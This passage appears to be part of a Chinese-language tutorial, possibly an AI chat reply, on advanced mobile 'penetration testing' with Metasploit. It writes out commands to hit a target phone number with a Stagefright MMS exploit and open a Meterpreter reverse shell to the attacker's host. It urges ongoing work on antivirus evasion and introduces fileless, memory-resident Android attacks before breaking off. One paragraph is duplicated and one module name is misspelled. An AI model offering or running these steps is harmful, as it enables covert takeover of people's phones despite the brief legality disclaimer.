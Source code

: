 在Metasploit中，有相应的模块：

bash
msf6 > use exploit/android/mms/sstagefright

# 设置Payload和参数
msf6 > set PAYLOAD android/meterpreter/reverse_tcp
msf6 > set LHOST <你的IP>
msf6 > set LPORT <端口>

# 设置目标手机号码
msf6 > set TARGETPHONE <目标手机号>

# 发送MMS（需要配置一个可用的MMS网关）
msf6 > exploit
注意事项
免杀技术：随着手机安全软件的升级，生成的Payload很容易被检测到。因此，需要持续研究免杀技术，如代码混淆、加密、使用合法应用加壳等。

网络环境：确保你的监听器设置正确，特别是当使用公网IP时，需要配置端口转发。

法律和道德：再次强调，未经授权进行这些测试是非法的。

总结
手机场景下的高级渗透测试是一个综合性的领域，涉及社会工程学、移动应用开发、系统漏洞和网络攻击等多方面知识。通过Metasploit框架，我们可以高效地完成从攻击到后渗透的整个流程。然而，这也要求渗透测试人员不断学习新的技术和漏洞，以应对日益增强的安全防护。

请务必在合法授权的环境中进行练习，并保护好个人隐私和数据安全。

好的，我们继续深入探讨手机场景下更高级、更隐蔽的玩法。这些技术需要更深入的理解和更谨慎的操作。


好的，我们继续深入探讨手机场景下更高级、更隐蔽的玩法。这些技术需要更深入的理解和更谨慎的操作。

---

### **玩法三：无文件攻击与内存驻留**

传统的 APK 安装方式会在设备上留下明显的应用图标和安装记录。高级攻击者会尽量避免这种情况。

**1. 利用已知漏洞实现无文件执行**

寻找 Android 系统组件或预装应用中的漏洞，通过特制的 Intent、恶意文件（如图片、PDF）或网络请求触发漏洞，直接在内存中加载并执行 Meterpreter 负载，无需安装 APK。

*   **示例：利用 Stagefright 漏洞 (CVE-2015-1538)**
    ```bash
    # 搜索相关模块
    search stagefright

    # 使用一个模块
    use exploit/android/browser/stagefright_mp4_tx3g

